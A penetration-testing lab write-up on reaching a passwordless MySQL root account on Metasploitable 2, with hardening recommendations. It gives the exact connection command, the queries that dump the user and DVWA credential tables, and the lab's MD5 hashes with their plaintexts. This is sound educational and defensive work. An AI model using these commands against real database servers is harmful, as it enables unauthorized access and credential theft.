






# Writeup 05 — MySQL Unauthenticated Access & Data Extraction

**Target:** Metasploitable 2  
**IP:** [TARGET-IP]  
**Port:** 3306/tcp (MySQL)  
**CVE:** CWE-521 (Weak Password Requirements) / CWE-306 (Missing Authentication)  
**Date:** July 2026  
**Author:** Rúben Silva  

---

## Objective

Demonstrate that the MySQL service running on Metasploitable 2 is accessible from the network without authentication — the root user has no password set. Exploit this misconfiguration to enumerate all databases, extract MySQL system credentials, and retrieve application data including password hashes from the DVWA database.

---

## Tools Used

| Tool | Purpose |
|---|---|
| mysql (client) | Direct MySQL connection and query execution |
| Kali Linux | Attack machine |
| Nmap | Prior service identification (Writeup 01) |

---

## 1. Background

MySQL is a widely used relational database management system. In default or poorly configured installations — particularly older versions — the `root` account may have no password set and be accessible from the network.

**This vulnerability was identified during Nmap reconnaissance (Writeup 01):** port 3306/tcp was found open, running `MySQL 5.0.51a-3ubuntu5`. This version is from 2008 and has no network access restrictions by default.

**Key risk:** Unlike the SQL Injection in Writeup 02 (which required exploiting an application vulnerability), this attack connects **directly to the database server** — bypassing the application layer entirely.

---

## 2. Environment

| Component | Details |
|---|---|
| Attack machine | Kali Linux — [ATTACKER-IP] |
| Target machine | Metasploitable 2 — [TARGET-IP] |
| Target service | MySQL 5.0.51a on port 3306/tcp |
| Network | Isolated LAN (internal bridge) |

---

## 3. Exploitation

### 3.1 Initial Connection Attempt

```bash
mysql -h [TARGET-IP] -u root
```

**Result — TLS/SSL version mismatch error:**



The modern MySQL client on Kali attempts to negotiate SSL by default. The ancient MySQL 5.0 on Metasploitable does not support modern TLS, causing a version mismatch error. This is a compatibility issue, not a security control.

### 3.2 Bypass SSL — Successful Connection

```bash
mysql -h [TARGET-IP] -u root --skip-ssl
```

**Result — Root access granted with no password prompt:**



```
Welcome to the MariaDB monitor.
Server version: 5.0.51a-3ubuntu5 (Ubuntu)
MySQL [(none)]>
```

**No password was requested.** Direct root access to the MySQL server was obtained with a single command.

---

## 4. Database Enumeration

### 4.1 List All Databases

```sql
SHOW DATABASES;
```



**7 databases discovered:**

| Database | Notes |
|---|---|
| `information_schema` | MySQL metadata — table structures, permissions |
| `dvwa` | Damn Vulnerable Web Application data |
| `metasploit` | Metasploit Framework database |
| `mysql` | MySQL system database — contains user credentials |
| `owasp10` | OWASP Top 10 vulnerable application |
| `tikiwiki` | TikiWiki CMS database |
| `tikiwiki195` | TikiWiki CMS (older version) |

**Critical finding:** The `mysql` system database is fully accessible, meaning all MySQL user accounts and privileges can be read and modified.

---

## 5. Credential Extraction

### 5.1 MySQL System Users

```sql
USE mysql;
SELECT user, password FROM user;
```



**3 MySQL accounts — all with empty passwords:**

| Username | Password | Risk |
|---|---|---|
| `debian-sys-maint` | *(empty)* | System maintenance account |
| `root` | *(empty)* | **Full administrative access** |
| `guest` | *(empty)* | Guest account with unknown permissions |

**Critical finding:** The `root` MySQL account has no password and is accessible from the network. An attacker has full control over all databases, users, and MySQL server configuration.

### 5.2 DVWA Application Database

```sql
USE dvwa;
SHOW TABLES;
```



Two tables found: `guestbook` and `users`.

```sql
SELECT user, password FROM users;
```



**5 application user credentials extracted:**

| Username | MD5 Hash | Plaintext (from Writeup 02) |
|---|---|---|
| admin | `5f4dcc3b5aa765d61d8327deb882cf99` | password |
| gordonb | `e99a18c428cb38d5f260853678922e03` | abc123 |
| 1337 | `8d3533d75ae2c3966d7e0d4fcc69216b` | charley |
| pablo | `0d107d09f5bbe40cade3de5c71e9e9b7` | letmein |
| smithy | `5f4dcc3b5aa765d61d8327deb882cf99` | password |

**Cross-reference with Writeup 02:** These are the same hashes previously extracted via SQL Injection through the DVWA web application. This demonstrates that the same data can be reached through multiple attack vectors — both the application layer (SQL Injection) and the database layer (direct unauthenticated access).

---

## 6. Attack Chain Summary

```
[1] Nmap scan (Writeup 01)
    → Port 3306/tcp open — MySQL 5.0.51a identified
            ↓
[2] Direct connection attempt
    → mysql -h [TARGET-IP] -u root
    → SSL version mismatch — bypass with --skip-ssl
            ↓
[3] Root access granted — no password required
    → MySQL [(none)]>
            ↓
[4] SHOW DATABASES
    → 7 databases exposed including mysql, dvwa, metasploit
            ↓
[5] USE mysql; SELECT user, password FROM user
    → 3 accounts with empty passwords including root
            ↓
[6] USE dvwa; SELECT user, password FROM users
    → 5 application credentials extracted (MD5 hashes)
            ↓
[RESULT] Full database server compromise
         All data across 7 databases accessible
         No exploit required — misconfiguration only
```

---

## 7. Severity Assessment

| # | Finding | Severity | Notes |
|---|---|---|---|
| F1 | MySQL root account with no password | 🔴 Critical | Full DB server access without authentication |
| F2 | MySQL accessible from network (port 3306 open) | 🔴 Critical | Should be bound to localhost only |
| F3 | All MySQL accounts have empty passwords | 🔴 Critical | Complete authentication failure |
| F4 | Application credentials stored as unsalted MD5 | 🔴 Critical | Trivially crackable — see Writeup 02 |
| F5 | 7 databases fully exposed | 🟠 High | All application data at risk |
| F6 | MySQL version 5.0.51a (EOL since 2012) | 🟠 High | No security patches — multiple known CVEs |

---

## 8. Recommendations

**R1 — Set a strong root password immediately:**
```sql
ALTER USER 'root'@'localhost' IDENTIFIED BY 'StrongPassword123!';
FLUSH PRIVILEGES;
```

**R2 — Bind MySQL to localhost only:**
In `/etc/mysql/mysql.conf.d/mysqld.cnf`:
```ini
bind-address = 127.0.0.1
```
This prevents any network access to MySQL — applications on the same server connect via localhost, external access is blocked entirely.

**R3 — Remove or secure unnecessary accounts:**
```sql
DROP USER 'guest'@'%';
ALTER USER 'debian-sys-maint'@'localhost' IDENTIFIED BY 'StrongPassword!';
```

**R4 — Apply principle of least privilege:**
Application users should only have access to their specific database with minimum required permissions. No application should connect as root.

```sql
-- Example: create restricted application user
CREATE USER 'dvwa_app'@'localhost' IDENTIFIED BY 'AppPassword123!';
GRANT SELECT, INSERT, UPDATE ON dvwa.* TO 'dvwa_app'@'localhost';
```

**R5 — Replace MD5 with secure password hashing:**
MD5 is cryptographically broken. Use bcrypt, Argon2id, or scrypt with unique salts for password storage.

**R6 — Update MySQL:**
MySQL 5.0.51a reached End of Life in 2012. Upgrade to a currently supported version with active security patches.

**R7 — Implement database activity monitoring:**
Deploy logging and alerting for unusual database access patterns, especially connections from unexpected IP addresses or queries on sensitive tables.

---

## 9. Comparison — SQL Injection vs Direct DB Access

| Aspect | Writeup 02 (SQL Injection) | Writeup 05 (Direct Access) |
|---|---|---|
| Attack vector | Application layer (HTTP) | Network layer (TCP 3306) |
| Prerequisite | Vulnerable web application | Open MySQL port + no password |
| Data accessible | Single application's data | **All databases on the server** |
| Detection difficulty | Application logs | Network logs |
| Exploit required | Yes (SQL injection payload) | No (standard MySQL client) |
| Skill required | Medium | Low |

---

## 10. References

- [CWE-521 — Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)
- [CWE-306 — Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)
- [MySQL Security Documentation](https://dev.mysql.com/doc/refman/8.0/en/security.html)
- [OWASP — Insecure Direct Object Reference](https://owasp.org/www-community/attacks/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet)

---

> **Legal disclaimer:** This exercise was performed exclusively on an intentionally vulnerable virtual machine (Metasploitable 2) within a private isolated lab network. No real systems or databases were accessed. All findings are documented for educational purposes only.
